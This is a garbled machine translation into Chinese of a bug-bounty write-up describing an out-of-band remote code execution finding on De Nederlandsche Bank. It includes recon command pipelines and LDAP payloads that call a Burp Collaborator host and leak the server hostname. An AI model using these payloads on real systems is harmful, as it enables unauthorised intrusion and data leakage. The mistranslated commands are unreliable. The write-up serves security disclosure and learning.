



# 与 burp-suite 合作者在荷兰银行(RCE)进行债券外远程代码执行

> 原文：<https://infosecwriteups.com/out-of-bond-remote-code-execution-rce-on-de-nederlandsche-bank-n-v-with-burp-suite-collaborator-2ce50260e2e4?source=collection_archive---------0----------------------->

大家好

我叫 Santosh Kumar Sha，是一名来自印度(阿萨姆邦)的安全研究员/职业黑客。在本文中，我将描述我是如何在荷兰银行 N.V .上使用 burp-suite collaborator 发现非绑定远程代码执行(RCE)的

> **我现在提供一对一的会议来分享我的知识和专长:**
> 
> [T3【topmate.io/santosh_kumar_sha】T5](https://topmate.io/santosh_kumar_sha)

# 特别说明:

未经允许，不要走出测试范围。保持安全，也黑客安全。特别请求我的昆虫赏金猎人同伴，保重你的健康，永远遵守交战规则。

**用于开发的工具**

1.子查找器(https://github.com/projectdiscovery/subfinder)

2.httpx(https://github.com/projectdiscovery/httpx)

3.高(科尔本)——[https://github.com/lc/gau](https://github.com/lc/gau)

4.waybackurls(汤姆诺姆)——[https://github.com/tomnomnom/waybackurls](https://github.com/tomnomnom/waybackurls)。

5.https://portswigger.net/burp

# bug 背后的故事:

这是我的如何在荷兰银行 N.V .上发现债券外远程代码执行(RCE)的书面报告。burp-suite collaborator 同时在不同的域上使用模糊参数。因此，在随意浏览和探索主域时，我注意到一个端点正在接受输入，因此输入一个有效载荷，但由于 waf，在服务器上执行命令并不简单。

# 这是这样的:

假设我们假设目标名称是 dnb.nl，其中所有内容都在范围内，如下所示:

**范围内:*.dnb.nl**

为了收集互联网档案中的所有子域，我使用了 subfinder、waybackurls 工具和 gau。

# 使用的命令:

**sub finder-d DNB . nl silent**

**gau -subs dnb.nl**

**waybackurls dnb.nl**

因此，错过子域的机会仍然存在，所以为了领先于游戏，我不想错过任何子域进行测试，所以我使用 subfinder 和管道 waybackurls 获得所有子域的所有域，如果存在，并将其保存到一个文件。

# 因此，最终的命令将如下所示:

gau -subs dnb.nl |展开域> > vul1.txt

waybackurls dnb.nl|展开域> > vul2.txt

sub finder-d DNB . nl-silent > > vul 3 . txt

现在收集所有的子域在一个和整理出重复的

# cat vul 1 . txt vul 2 . txt vul 3 . txt | sort-u > > unique _ sub . txt

因为，如果现在我已经收集了所有的唯一域名，并将其存储在" **unique_sub.txt** "上

# 现在创建模糊参数的客户词表:

gau-subs[DNB . nl](https://sharefile.dnb.nl)| grep " = " | sed ' s/。*.？//' | sed 's/ & /\n/' | sed 's/=。*//' > > param1.txt

wayback URLs[DNB . nl](https://sharefile.dnb.nl)| grep " = " | sed ' s/。*.？//' | sed 's/ & /\n/' | sed 's/=。*//' | sort-u>>param 2 . txt

# cat param 1 . txt param 2 . txt | sort-u > > param . txt

因为，如果现在我已经收集了所有独特的参数，并将其存储在**“param . txt”**

现在，我有了唯一的域和模糊化的客户参数。

# 现在真正的狩猎开始了，我是如何摆脱邦德·RCE 的:

因此，当在打嗝中继器的端点附近播放时，我遇到了一个接受输入的参数，但当我被注入 RCE 有效载荷时，它被 WAF 阻止，并且还对很难绕过的特殊字符进行了编码。我尝试了多种编码和解码技术来绕过它，也尝试了多种 WAF bypass 有效载荷和一些自定义有效载荷，但没有成功。很难绕过 waf 和编码来触发 RCE。

因此，在尝试了一切之后，我想为什么不尝试脱离绑定远程代码执行来提取后端上运行的命令，并将其聚集在任何其他服务器上以绕过 WAF。

所以，我不需要任何第三方域名或服务器来响应。以下是 burp collaborator 如何在测试使用时派上用场。我使用了 but payload 使用 curl，ping 和 nslookup 命令使用 burp collaborator 服务器，但没有成功。但是，突然我想起他们在使用 ldap。

所以，我最后把有效载荷试成了**“LDAP://test。<打嗝合作者 _ 服务器> "** 幸运的是我收到了 dns 的 pingback。

但是为了证明 RCE，我决定升级并从服务器获取在服务器上执行的命令的响应。现在，我尝试了最后一个有效负载来获取在服务器上执行的 rce 命令输出。

**" ldap://${hostname}。<打嗝合作者 _ 服务器>**

**钻孔过程:**

使用这种方法，我能够使用 burp-suite 入侵者通过 burp-suite collaborator 执行多个脱离绑定的远程代码执行(RCE)。我在一份报告中报告了所有问题，因为所有问题都是因为相同的根本原因，所以只奖励一次。

# 故事的寓意:

使用 burp-suite 作为自动化工具，因为它提供了无限的能力，而且你不需要编程知识，你只需要知道如何使用它。

**外卖**

我敢肯定，许多安全研究人员已经看到了这个过程，但这是我如何在荷兰银行 N.V .与 burp-suite collaborator 上发现非绑定远程代码执行(RCE)的方法。

这也是我想分享我的经历的原因之一。同时强调利用此类漏洞的其他技术。

喜欢我的作品就支持我吧！给我买杯咖啡，在 T2 的推特上关注我。
**领英简介**:[https://www.linkedin.com/in/santoshlegend12tech/](https://www.linkedin.com/in/santoshlegend12tech/)

*来自 Infosec 的报道:每天 Infosec 上都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*